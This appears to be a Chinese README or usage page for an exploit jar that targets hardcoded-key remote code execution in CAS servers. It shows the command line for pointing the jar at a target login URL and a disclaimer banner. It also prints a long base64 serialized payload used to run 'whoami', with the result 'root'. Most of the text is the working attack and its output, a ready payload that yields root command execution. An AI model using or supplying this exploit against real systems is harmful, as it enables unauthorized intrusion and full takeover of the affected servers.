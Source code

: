 
CAS 硬编码 远程代码执行漏洞

使用方式

java -jar cas-0.0.1-all.jar  http://localhost:8080/cas-server/login

-----------------------cas检测工具---------------------------------
-----------本软件仅供学习交流,如作他用所承受的法律责任一概与作者无关---------

---------use: jar -jar cas-0.0.1-all.jar http://xxxx.xxxx-------  

-------------------create by maobugs----------------------------

执行命令whoami...

payload is: AAAAIgAAABBrUgLwoiwOSTCDnal67lrrAAAABmFlczEyOG2E5KGXIUeDS4otbEU6mQufQIcYPEwC
AzL9uqiZr4dOaap91C0EktTooeh7aMerjfA+HcOoYp6+UkKC+fVP2HArdF0rM3ug7/8/EQqhNy3o
hgD6GwoB6NT1QZZ3rP1powA1sdANE7DLcF5wF9OPdamsAQ+lZahnIAFLvCv4uKXcZmNJ05neWXbF
C+1vs0YFFKl7HlfALdm5ai0HdMHNRZ7JdlyTuiFdlKA24vlOL9sQqCIBod1oHP+kWyNJzxrcw0En
vNbZ9YEK/y+1u8OKayHDbSU2Q8D22KRCXgc0MT0jsYlHyE5f90edFf3ErodQQtEHmWptHm7JYpkH
6s6KASPP5hsyFwvJZf49su+SZFq8ZZAkc5LRXCfxZ/A0lt8NrWV8k1JZgjEhOT8CrGiMjKDLTmkR
llcCAIgZD9f5HwwLOTQ2zJJyLmn37gN50Iuzm4J1o7MmuM5VFXZlR+oBAnvRNDwm7QIg6g768FE9
VhxocTPCykE0VXXiMLf+mSoAyFsl5yfmuXRSI9yTdC2uNuDUWXdFdwFlnXYj80cuJ+Cx5UzvLP/j
nq92puU2SKDybAysykkw8KNDC+vgRsOOGlprsXs9pdF01jkl/uK7kos7DiNrqqIggDtT7KdeEJBW
RWqTpO3hWQeboBw0NwNE4IuLlNFwp1pCbZauYt48Ttqe8sLTftkGbWthfU7r8gY8o+vnM4ZzSdfc
W0cCIDauWJ/FK2oI8KTbG48FdUOZ7JLCXd0UALXR9Q+XkEDHHbaW2oO1vLB7rhkEoFgs86dZXLrS
F0RoMY6IoTL5qtt8jdev3GsOv9xHTwQvRMh3/NqSV3Jv5V5SS5/U1HhuoPsrn6mYHPgLK9KYKu6g
aPgrn4owyk9bVdGJRBymkt4OknEa4o/GrfYO1ZurNqdGCktnFleooAvDXQGxOYoeSg8p9U55O0gu
v0ljAuiwg2lOc5Slzru41Uc1+PE1H93Yo3lJ4vMgmdYWwKKaBXnAgk1Zi4a4O60KXUIFvuNZBg1U
9/zeI6MM15tLDF5KoWk+jIAehrY7NARLf5NmaiTCLj4f0LkUYrlAbaChk/A8ypq3v1xM02jN14MC
HKTNqx/+QP58P+goZiog0qqosObM/kGwj8uNHmQXHZQEoOVFU5G0x9dZxUyDRkK+RRWxWWb202bs
+Wv/GJW4gaVKEAOdSqh2NCGPh0TeIHIsAM6h0w90QMAVra/ME2EIcTpA+jrXlL60yoJNpPL4/dLI
S/FkKRoDD7/YkRYJNxwfX4on4F5My/+jZOFvcJvVQloYD8j2/twREQWusb0k+U3vWV1jpJXH76hn
fh+om/jo2LbEApzydPAAVqojYPwIbA9fHIH+Ltmiint/l8Mz4eHNUCRpICOK01y0Mxv6VDIpSLzV
I15ymtSZCQ1JvILH4fy8w6FpEYnAaXtfEW8/tMmJi5hznbYeOkiFU00VbshkcQalU3Q3AlDnwUzB
A8xq3OkuoMHkOpRSGf/+uKRbU2v/vb8/n0aroOhKnbR8s9y2MreXhYk9nmiqckyAwzkfQS85+eHA
XIyoGKx0+sJxKUT8IOyGsQjmX2pyyjCl5l0MP65xtDLwRKgOB+fFBqdlRPNG5NLRyy+rFc33GpXN
46GGXWBggF3Od+2YBb/4j+PyCDprsp0xFOPhGN6vks3VLBcxtJOIn16YTCYB56+h9licrenvH6/R
5Z8cHxcuCRX28S1n//oEcQBy4pC8SttL+L/vaYYLknQbl8u/qGfaA8RylTm2RYy+hSlbkjUgaybe
qGY6M79oVsTzqZuQsjxLGX3raXwY4dgKotShnN1OWyvBsYcBRkiQWkCzZ8vwYcRVlqnCwu1v6FjY
Yuz/D6mfLJShtfW+U6cL0WjpXfqWQEPAtPRvMspajnTV7jQNJZMbwjAFZ8bMTba9jsXGIwJNTBwi
164n/AI46mw0TVTgEiTbxTUAzrCuhXM6NEyuboqOKGB/WbvnLPXCwd82eH2t3gsTv/lRVKX8Jplx
TxRvAM87c0xJjAlGUmxH/462380Mg+F7AVtCLDka6LhjIsOF4Uh/3VBvxn2m3zFN0qweyB9yM63S
5u2DoFcjqOayD2oSaOHDnmMaJ1pIiEhM+O9pHDwntP/Kc7RTo3n2RgArXHq8BCb82Lb3lpWy9vWD
j4r1UtrWq0rk9kBe04dsL3tA5xDJRM7AV8VJipNDIHrN78uNcUq2qTgqzkr3Aovrpcu6YUzHl9Mv
zh/DuzT10jfr4cXqKW04OR5ghJwwdyk1iMHW3iSTZOtR1Jlt/+dPh42Hkjhhf1pZhX1YErnfK37j
JjjBusXuZw3q5PlxGKFEt2Zvq3fH7jKyVOj/f2taNSCBd5YJbxEPcZy+9ITRGeFiDF+mrqdbrrvp
mAMAmqkjowEjoyNy/ebJa6Vjgu2n0LPkBR+XZ8cAr7ON9oTqnPJp0WhfmXCeqBw1jHLfk8pRSGXF
koHQNvbS8Yg6UOnp3XwBaSbqfQFaNbJMKAwsO6rqem0E2WzK1wSysVas9HAvNFxXTc17Q2g7asXc
ikIIPcAvvBuwHE21QXJVjD5FpIr9TskYQRTGPY1A3Ivy8obdFqXfqMpYtIYoEIJnS5qmDbE+H2aD
uT0fNHcMv6oiiet/oGE7MYg8lRV3f2q3LmrJY1m3skB/3yQkP+hoZSaVZfLrljwoaDzCacYEL3Un
BcnkUX4PLBLWolJgD30=

执行结果是：root


